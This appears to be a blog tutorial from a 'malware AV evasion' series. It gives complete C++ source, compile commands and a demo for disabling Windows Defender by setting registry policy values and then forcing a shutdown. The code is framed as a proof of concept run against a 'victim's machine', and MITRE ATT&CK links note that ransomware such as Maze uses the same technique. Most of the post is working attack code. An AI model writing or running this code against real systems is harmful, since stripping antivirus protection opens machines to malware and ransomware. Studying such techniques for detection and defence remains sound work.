

## 41. malware AV evasion: part 7. Disable Windows Defender. Simple C++ example.

{width="80%"}    

This post is the result of self-researching one of the most common tricks in the malware in the wild.

### windows defender

The anti-malware software Windows Defender (now known as Microsoft Defender Antivirus) protects your computer from external threats. Microsoft has developed the antivirus to safeguard `Windows 10` computers from virus threats.

This antivirus is preinstalled on all `Windows 10` editions.

To avoid possible detection of their malware/tools and activities, adversaries may modify or disable security tools. For example Windows Defender.

### practical example

Let's go to try disable Windows Defender Antivirus via modifying Windows registry. First of all, it is important to remember that disabling requires administrator rights. In active mode, Microsoft Defender Antivirus serves as the device's primary antivirus program.
Threats are remedied and detected threats are listed in your organization's security reports and Windows Security application. To disable all this you just need to modify the registry keys:

```cpp
LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
"SOFTWARE\\Policies\\Microsoft\\Windows Defender", 
0, KEY_ALL_ACCESS, &key);
if (res == ERROR_SUCCESS) {
  RegSetValueEx(key, "DisableAntiSpyware", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegCreateKeyEx(key, "Real-Time Protection", 0, 0, 
  REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, 0, &new_key, 0);
  RegSetValueEx(new_key, "DisableRealtimeMonitoring", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableBehaviorMonitoring", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableOnAccessProtection", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableIOAVProtection", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));

  RegCloseKey(key);
  RegCloseKey(new_key);
}
```

But as I wrote earlier, this requires admin rights, for this we create a function which check this:

```cpp
// check for admin rights
bool isUserAdmin() {
  bool isElevated = false;
  HANDLE token;
  TOKEN_ELEVATION elev;
  DWORD size;
  if (OpenProcessToken(GetCurrentProcess(), 
  TOKEN_QUERY, &token)) {
    if (GetTokenInformation(token, TokenElevation, 
    &elev, sizeof(elev), &size)) {
       isElevated = elev.TokenIsElevated;
    }
  }
  if (token) {
    CloseHandle(token);
    token = NULL;
  }
  return isElevated;
}
```

Since Windows Vista, UAC has been a crucial feature for mitigating some risks associated with privilege elevation. Under UAC, local Administrators group accounts have two access tokens, one with standard user privileges and the other with administrator privileges.
All processes (including the Windows explorer - `explorer.exe`) are launched using the standard token, which restricts the process's rights and privileges. If the user desires elevated privileges, he may select *"run as Administrator"* to execute the process.
This opt-in grants the process all administrative privileges and rights.

A script or executable is typically run under the standard user token due to UAC access token filtering, unless it is "run as Administrator" in elevated privilege mode. As a developer or hacker, it is essential to understand the mode in which you are operating.

So, full PoC script to disable Windows Defender is something like:

```cpp
/*
hack.cpp
disable windows defender dirty PoC
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/05/malware-av-evasion-7.html
*/

#include <cstdio>
#include <windows.h>

// check for admin rights
bool isUserAdmin() {
  bool isElevated = false;
  HANDLE token;
  TOKEN_ELEVATION elev;
  DWORD size;
  if (OpenProcessToken(GetCurrentProcess(), 
  TOKEN_QUERY, 
  &token)) {
    if (GetTokenInformation(token, TokenElevation, 
    &elev, sizeof(elev), &size)) {
       isElevated = elev.TokenIsElevated;
    }
  }
  if (token) {
    CloseHandle(token);
    token = NULL;
  }
  return isElevated;
}

// disable defender via registry
int main(int argc, char* argv[]) {
  HKEY key;
  HKEY new_key;
  DWORD disable = 1;

  if (!isUserAdmin()) {
    printf("please, run as admin.\n");
    return -1;
  }

  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  "SOFTWARE\\Policies\\Microsoft\\Windows Defender", 0, 
  KEY_ALL_ACCESS, &key);
  if (res == ERROR_SUCCESS) {
    RegSetValueEx(key, "DisableAntiSpyware", 0, 
    REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegCreateKeyEx(key, "Real-Time Protection", 0, 
    0, REG_OPTION_NON_VOLATILE, 
    KEY_ALL_ACCESS, 0, &new_key, 0);
    RegSetValueEx(new_key, "DisableRealtimeMonitoring", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableBehaviorMonitoring", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableOnAccessProtection", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableIOAVProtection", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));

    RegCloseKey(key);
    RegCloseKey(new_key);
  }

  printf("perfectly disabled :)\n");
  printf("press any key to restart to apply them.\n");
  system("pause");
  system("C:\\Windows\\System32\\shutdown /s /t 0");
  return 1;
}
```

### demo

Let's go to see everything in action. First of all, check our defender:    

{width="80%"}    

and check registry keys:    

```powershell
reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s
```

{width="80%"}    

As you can see, we have standard registry keys.   

Then, let's go to compile our script from attacker's machine:

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

And run it on the victim's machine:

```powershell
.\hack.exe
```

{width="80%"}    

According to the logic of the our program, the machine turns off. Then, turn on it again and check:    

```powershell
reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s
```

{width="80%"}    

{width="80%"}    

For correctness, check via Windows Defender Security Center:    

{width="80%"}    

{width="80%"}    

As you can see, everything is worked perfectly!    

But of course, this trick is not new, nowadays threat actors may tamper with artifacts deployed and utilized by security tools. Security products may load their own modules and/or modify those loaded by processes to facilitate data collection. Adversaries may unhook or otherwise modify these features added by tools to avoid detection.    

This trick is used by [Maze](https://attack.mitre.org/software/S0449/) and [Pysa](https://attack.mitre.org/software/S0449/) ransomwares in the wild.    

For the next part, I'll learn and research a trick, the point of which is to deprive the antivirus process of privileges, thanks to which it can check files for malware.   

[MITRE ATT&CK. Impair Defenses: Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001/)    
[Gorgon Group](https://attack.mitre.org/groups/G0078/)    
[H1N1 Malware](https://attack.mitre.org/software/S0132/)    
[Maze ransomware](https://attack.mitre.org/software/S0449/)    
[Pysa ransomware](https://attack.mitre.org/software/S0449/)     
[source code on github](https://github.com/cocomelonc/2022-06-05-malware-av-evasion-7)    
